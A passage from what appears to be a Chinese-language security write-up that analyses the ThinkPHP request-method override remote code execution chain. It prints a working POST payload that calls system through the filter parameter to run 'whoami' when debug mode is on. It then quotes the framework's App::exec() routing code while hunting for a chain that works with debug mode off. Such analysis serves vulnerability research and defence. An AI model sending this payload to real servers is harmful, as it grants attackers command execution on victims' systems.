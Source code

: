 可知如果开了调试模式的话，在启动执行应用程序时会自动调用`$request-&gt;param()`方法。因此当开启调式模式时，我们的分析利用链到此时已经结束，可以构造相应`payload`

```
POST:_method=__construct&amp;filter[]=system&amp;get[]=whoami  or _method=__construct&amp;filter[]=system&amp;route[]=whoami
```

[![](https://p2.ssl.qhimg.com/t01e1b3b5dd61a75648.png)](https://p2.ssl.qhimg.com/t01e1b3b5dd61a75648.png)

如果关闭了调试状态（通常情况下也会关闭调试状态），则需要搜索其他利用链

`APP::exec()`

```
protected static function exec($dispatch, $config)
    `{`
        switch ($dispatch['type']) `{`
            case 'redirect': // 重定向跳转
                $data = Response::create($dispatch['url'], 'redirect')
                    -&gt;code($dispatch['status']);
                break;
            case 'module': // 模块/控制器/操作
                $data = self::module(
                    $dispatch['module'],
                    $config,
                    isset($dispatch['convert']) ? $dispatch['convert'] : null
                );
                break;
            case 'controller': // 执行控制器操作
                $vars = array_merge(Request::instance()-&gt;param(), $dispatch['var']);
                $data = Loader::action(
                    $dispatch['controller'],
                    $vars,
                    $config['url_controller_layer'],
                    $config['controller_suffix']
                );
                break;
            case 'method': // 回调方法
                $vars = array_merge(Request::instance()-&gt;param(), $dispatch['var']);
                $data = self::invokeMethod($dispatch['method'], $vars);
                break;
            case 'function': // 闭包
                $data = self::invokeFunction($dispatch['function']);
                break;
            case 'response': // Response 实例
                $data = $dispatch['response'];
                break;
            default:
                throw new \InvalidArgumentException('dispatch type not support');
        `}`

        return $data;
    `}`
```
